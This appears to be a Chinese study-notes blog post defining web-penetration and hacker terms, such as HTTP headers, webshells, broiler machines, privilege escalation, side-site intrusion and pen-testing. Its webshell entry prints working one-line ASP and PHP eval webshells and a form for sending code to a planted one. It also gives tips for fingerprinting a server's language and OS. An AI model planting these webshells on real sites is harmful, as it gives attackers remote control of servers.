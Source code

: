 ```yaml
---
title: Hacker的部分专业术语
date: 2021-05-16 15:53:07
tags:
- 学习笔记
categories:
- [计算机知识, Web渗透]
---
```


### 脚本（asp，php，jsp）

### html（css，js，html）

### HTTP协议
  超文本传输协议
  （HTTP，HyperText Transfer Protocol）是互联网上应用最为广泛的一种网络协议。所有的WWW文件都必须遵守这个标准。设计HTTP最初的目的是为了提供一种发布和接收HTML页面的方法。  

  `HTTP头`讲解：

  ```raw
  [root@bt ~]# curl-I www.baidu.com
  HTTP/1.1 200 OK
  Date:Sat, 18 Apr 2015 16:42:13GMT
  Content-Type: text/html; charset=utf-8
  Connection: Keep-Alive
  Vary: Accept-Encoding
  Set-Cookie: BAIDUID=3098620FDEE24194CF6F5A853507E9BC:FG=l; expires=Thu, 31-Dec-37 23:55:55 GMT; max-age=2147483647; path=/; domain=.baidu.com
  Set-Cookie: BIDUPSID=3098620FDEE24194CF6F5A853507E9BC; expires=Thu, 31-Dec-37 23:55:55 GMT; max-age=2147483647; path=/; domain=.baidu.com
  Set-Cookie: BDSVRTM=0; path=/
  Set-Cookie: BD_HOME=0; path=/
  Set-Cookie: H_PS_PSSID=13421_1426_13466_13074_12825_13381_12868_13322_12691_13410_10562_12722_12735_13439_13086_13477_13324_12836_13491_13162_13256_8498; path=/; domain=.baidu.com
  P3P: CP= "OTI_DSP_COR_IVA_OUR_IND_COM"
  ```

  200 响应码  
  date 日期  
  content-type 类型  
  Accept-Charset：浏览器可接收的字符集  
  Content-Length：表示请求消息正文的长度  
  Cookie：这是最重要的请求头信息之一  

<br />

  参考网站：
  [curl 的用法指南](http://www.ruanyifeng.com/blog/2019/09/curl-reference.html)  
  [HTTP响应头信息|菜鸟教程](https://www.runoob.com/http/http-header-fields.html)  
  [HTTP头部信息详解](https://www.cnblogs.com/wait59/p/13736601.html)  
  [HTTP头部详解](https://blog.csdn.net/sinat_34166518/article/details/83584910)  

### 静态网站

静态网站是指全部由HTML（标准通用标记语言的子集）代码格式页面组成的网站，所有的内容包含在网页文件中。网页上也可以出现各种视觉动态效果，如：GIF动画、Flash动画、滚动字幕等，而网站主要是静态化的页面和代码组成，一般文件名均以htm、html、shtml等为后缀。  
如：http://www.xxx.com/index.html

### 动态网站

动态网站并不是指具有动画功能的网站，而是指网站内容可根据不同情况动态变更的网站，一般情况下，动态微网站通过数据库进行架构。  
动态网站除了要设计网页外，还要通过数据库和编程序来使网站具有更多自动的和高级的功能。动态网站体现在网页一般是以asp，jsp，php，aspx等结尾，而静态网页一般是HTML结尾，动态网站服务器空间配置要比静态的网页要求高，费用也相应的高，不过动态网页利于网站内容的更新，适合企业建站。动态网站是相对于静态网站而言。  
如：http://xxx.com.cn/index.asp  

判断一个网站是什么编程语言写的，网站地址末尾加上index.asp/jsp/php/html等，也可加上robots.txt，有的是没有的，防止机器爬虫  
判断Linux系统还是Windows系统，把网页地址中的文件后缀其中一个字母改为大写，如不报错，即为Windows。（Linux系统大小写敏感，Windows系统不敏感）  

### 伪静态

“伪静态”顾名思义就是一种表面上看似是静态网页（以.html、.htm等结尾），不存在任何的数据交互，却其实是动态网页，存在数据交互的网站，具有这种特性的网页被称为“伪静态网页”。我们看到的伪静态网页其实是经过处理的，将动态网页的id等参数通过URL重写来隐藏，让查看者以为是静态网页。  
参考网站：  
[Web安全-伪静态网页](https://blog.csdn.net/weixin_39190897/article/details/104150886)  

* CMS（B/S）
* MD5
* 肉鸡：被黑客入侵并被长期驻扎的计算机or服务器
* 抓鸡：利用大量的程序漏洞，使用自动化方式获取肉鸡的行为
* 漏洞：硬件，软件，协议等等的可利用安全缺陷，可能被攻击者利用，对数据进行篡改，控制等
* Webshell：通过Web入侵的一种脚本工具，可以据此对网站服务进行一定程度打的控制

* 一句话【木马】：  
  通过向服务端提交一句简短的代码，配合本地客户端实现 Webshell 功能的木马。  

  ```raw
  <%eval request(“pass”)%>
  <%execute (request(“pass”))%>
  ```

  request(“pass”) 接收客户端提交的数据，pass为执行命令的参数值。  
  eval / execute 函数执行客户端命令的内容。  

  这种木马一般会被安全狗拦截  
    如PHP的一句话木马：  

    ```php
    <?php eval($_POST[cracer]);?>
    ```

  下面的代码可以用POST的方式提交PHP语句，利用php脚本的各种函数，就可以实现执行系统命令，修改数据库、增删改文件等的各种功能。  

    ```php
    <form method=post action=http://木马地址>
         <textarea name=yourname>
               //这里写php代码
               phpinfo();
         </textarea>
         <input type=submit>
    </from>
    ```

* 提权： 操作系统低权限的账户将自己提升为管理员权限使用的方法。
* 后门：黑客为了对主机进行长期的控制，在机器上种植的一段程序或留下的一个“入口”。

* 跳板：使用肉鸡IP来实施攻击其他目标，以便更好地隐藏自己的身份信息。
* 旁站入侵：
即同服务器下的网站入侵，入侵之后可以通过提权跨目录等手段拿到目标网站的权限。
常见的旁站查询工具有：
WebRobot、御剑、明小子和Web在线查询等。

* C段入侵：
即同C段服务器入侵，如目标ip为192.168.1.253入侵192.168.1.xxx的任意一台机器，然后利用一些黑客工具嗅探获取在网络上传输的各种信息。  
常用的工具有：  
Window环境——Cain  
UNIX环境——Sniffit，Snoop，Tcpdump，Dsniff，etc.  

* 渗透测试：
  * 黑盒测试：
    * 在未授权的情况下，摸你黑客的攻击方法和思维方式，来评估计算机网络系统可能存在的安全风险。
    * 黑盒测试不同于黑客入侵，并不等于黑站。黑盒测试考验的是综合能力（OS，Datebase，Script，code，思路，社工）
    * 思路与经验积累往往决定成败

  * 白盒测试：
    * 相对黑盒测试，白盒测试基本是从内部发起

  * 黑白盒的另一种说法：
    * 知道源代码和不知道源代码的渗透测试
这时，黑盒测试还是传统的渗透测试，而白盒测试就偏向于代码审计。

* APT攻击：
  * Advanced Persistent Threat（高级可持续性攻击）
  * 是指组织（especially the government）或者小团体利用先进的攻击手段对特定目标进行长期持续性网络攻击的攻击形式。
  * 特点：
    1. 极强的隐蔽性
    2. 潜伏期长，持续性强
    3. 目标性强

渗透测试的特点：  

1. 充满挑战与刺激——不达目的不罢休  
2. 思路与经验累积往往决定成败  
